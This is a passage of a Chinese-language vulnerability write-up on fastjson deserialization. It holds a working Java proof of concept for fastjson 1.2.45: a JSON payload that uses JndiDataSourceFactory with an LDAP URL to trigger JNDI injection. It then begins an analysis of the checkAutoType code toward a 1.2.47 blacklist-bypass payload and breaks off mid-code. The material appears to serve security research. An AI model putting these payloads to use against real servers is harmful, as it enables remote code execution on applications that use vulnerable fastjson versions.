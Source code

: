 1.2.45添加了黑名单，封堵了一些可以绕过黑名单的payload 

pom.xml

```
    <!--1.2.45 黑名单添加-->
    <dependency>
      <groupId>org.apache.ibatis</groupId>
      <artifactId>ibatis-core</artifactId>
      <version>3.0</version>
    </dependency>
```

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

/**
 * fastjson 1.2.45 黑名单添加
 */
public class fastjson1245
{
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\"," +
                "\"properties\":{" +
                "\"data_source\":\"ldap://127.0.0.1:1099/calc\"" +
                "}}";
        JSON.parse(payload);
    }
}
```

## [1.2.47] 通杀payload

还是从` com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int) `这个方法进行分析

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
        //1.typeName为null的情况，略

        //2.typeName太长或太短的情况，略

        //3.替换typeName中$为.，略

        //4.使用hash的方式去判断[开头，或L开头;结尾，直接报错
        //这里经过几版的修改，有点不一样了，但是绕不过，也略

        //5.autoTypeSupport为true(白名单关闭)的情况下，返回符合白名单的，报错符合黑名单的
        //(这里可以发现，白名单关闭的配置情况下，必须先过黑名单，但是留下了一线生机)
        if (autoTypeSupport || expectClass != null) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                hash ^= className.charAt(i);
                hash *= PRIME;
                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                    if (clazz != null) {
                        return clazz;
                    }
                }
```